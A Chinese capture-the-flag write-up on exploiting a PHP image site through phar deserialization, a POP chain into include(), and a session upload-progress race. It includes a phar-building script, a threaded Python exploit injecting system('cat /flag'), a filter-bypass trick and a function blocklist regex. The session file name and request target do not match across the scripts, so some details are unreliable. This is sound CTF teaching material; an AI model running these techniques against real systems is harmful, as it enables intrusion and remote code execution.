

# 知识点
phar反序列化<br />session文件竞争<br />文件包含
# 思路
### 非预期解
因为图片查看页没有禁掉flag，可以直接通过任意文件读取，获取根目录下的flag<br />
### 预期解
我们先看页面源码，发现图片上传页面是将文件上传至upload.php
```html
<form action="upload.php" method="post" enctype="multipart/form-data"> 
  <label for="file">文件名:</label> 
  <input type="file" name="file" id="file"><br> 
  <input type="submit" name="submit" value="提交"> 
</div> 
```
通过图片查看进行读取upload.php,class.php,file.php的源码<br />先看一下class.php中upload类的上传逻辑<br />使用白名单过滤文件后缀，对文件内容进行了严格的过滤，看上去想上传一个PHP木马有些不太可能<br />保存文件名是上传的文件的文件名的md5值，所以文件我们是可知且可控的。
```php
function file_check() { 
  $allowed_types = array("png");
  $temp = explode(".",$this->f["file"]["name"]);
  $extension = end($temp); 
  if(empty($extension)) { 
    echo "what are you uploaded? :0";
    return false;
  }
  else{ 
    if(in_array($extension,$allowed_types)) {
      $filter = '/<\?php|php|exec|passthru|popen|proc_open|shell_exec|system|phpinfo|assert|chroot|getcwd|scandir|delete|rmdir|rename|chgrp|chmod|chown|copy|mkdir|file|file_get_contents|fputs|fwrite|dir/i';
      $f = file_get_contents($this->f["file"]["tmp_name"]);
      if(preg_match_all($filter,$f)){
        echo 'what are you doing!! :C';
        return false;
      }
      return true; 
    } 
    else { 
      echo 'png onlyyy! XP'; 
      return false; 
    } 
  }
}
function savefile() {  
  $fname = md5($this->f["file"]["name"]).".png"; 
  if(file_exists('./upload/'.$fname)) { 
    @unlink('./upload/'.$fname);
  }
  move_uploaded_file($this->f["file"]["tmp_name"],"upload/" . $fname); 
  echo "upload success! :D"; 
} 
```
我们再来看看文件读取这块的逻辑，过滤许多伪协议，但没有过滤phar伪协议<br />我们可以通过file_get_contents函数来触发反序列化链
```php
public function show()
{
  if(preg_match('/http|https|file:|php:|gopher|dict|\.\./i',$this->source)) {
    die('illegal fname :P');
  } else {
    echo file_get_contents($this->source);
    $src = "data:jpg;base64,".base64_encode(file_get_contents($this->source));
    echo "";
  }

}
```
接下来就是试着找利用的反序列化链<br />我们可以通过Test类的__destruct方法作为起点，str可控并且它是打印str，所以可以找含有__toString的类
```php
class Test{
  public $str;
  public function __construct(){
    $this->str="It's works";
  }
  public function __destruct()
  {
    echo $this->str;
  }
}
```
Upload类中含有__toString方法，并且$cont和$size都可控，因为size相当于属性值，所以我们可以找__get
> __get  读取不可访问（protected 或 private）或不存在的属性的值时，__get() 会被调用。

```php
function __toString(){
  $cont = $this->fname;
  $size = $this->fsize;
  echo $cont->$size;
  return 'this_is_upload';
}
```
Show类中含有__get方法，并且他调用了一个未知方法，这时我们可以寻找__call方法
```php
function __get($name)
{
  $this->ok($name);
}
```
通过Show类中的__call方法，我们可以调用backdoor方法<br />我们来看看backdoor方法是什么
```php
public function __call($name, $arguments)
{
  if(end($arguments)=='phpinfo'){
    phpinfo();
  }else{
    $this->backdoor(end($arguments));
  }
  return $name;
}
```
backdoor方法进行了文件包含，$door我们可控，就是前面$size,可以改为我们想包含的文件名
```php
public function backdoor($door){
  include($door);
  echo "hacked!!";
}
```
那这时候我们得想办法，如何向网站上传我们包含的文件，也思考可不可以通过日志包含，但在文件读取页尝试通过默认路径读取日志发现失败，可能路径已经被修改。<br />这时候开始考虑session文件竞争<br />构造pop链
```php
<?php
    class Test{
        public $str;
    }
    class Upload {
        public $fname;
        public $fsize;

    }
    class Show{
        public $source;
    }
    $test = new Test();
    $upload = new Upload();
    $show = new Show();
    $test->str = $upload;
    $upload->fname=$show;
    $upload->fsize='/tmp/sess_Ki1ro';

    // 生成phar文件
    @unlink("shell.phar");
    $phar = new Phar("shell.phar");
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($test);
    $phar->addFromString("test.txt", "test");
    $phar->stopBuffering();

?>
```
通过gzip文件压缩，绕过内容检测，将后缀改为png，绕过后缀检测<br />再上传文件<br />现在开始写读取文件和上传session文件的双线程脚本
```php
import threading, requests
from hashlib import md5


url = 'http://9e57dedf-4eec-43bb-a01e-a39ed6d52f84.node4.buuoj.cn:81/'
check = True


# 触发phar文件反序列化去包含session上传进度文件
def include(fileurl, s):
    global check
    while check:
        fname = md5('shell.png'.encode('utf-8')).hexdigest() + '.png'
        params = {
            'f': 'phar://upload/' + fname
        }
        res = s.get(url=fileurl, params=params)
        if "working" in res.text:
            print(res.text)
            check = False


# 利用session.upload.progress写入临时文件
def sess_upload(uploadurl, s):
    global check
    while check:
        data = {
            'PHP_SESSION_UPLOAD_PROGRESS': "<?php echo 'working';system('cat /flag') ?>"
        }
        cookies = {
            'PHPSESSID': 'chaaa'
        }
        files = {
            'file': ('chaaa.png', b'cha' * 300)
        }
        s.post(url=url, data=data, cookies=cookies, files=files)


def exp(url):
    fileurl = url + 'file.php'
    uploadurl = url + 'upload.php'

    num = threading.active_count()
    # 上传phar文件
    file = {'file': open('./shell.png', 'rb')}
    ret = requests.post(url=uploadurl, files=file)
    # 文件上传条件竞争getshell
    event = threading.Event()
    s1 = requests.Session()
    s2 = requests.Session()
    for i in range(1, 5):
        threading.Thread(target=sess_upload, args=(uploadurl, s1)).start()
    for i in range(1, 5):
        threading.Thread(target=include, args=(fileurl, s2,)).start()
    event.set()
    while threading.active_count() != num:
        pass


if __name__ == '__main__':
    exp(url)
    print('success')

```
从而获取flag<br />
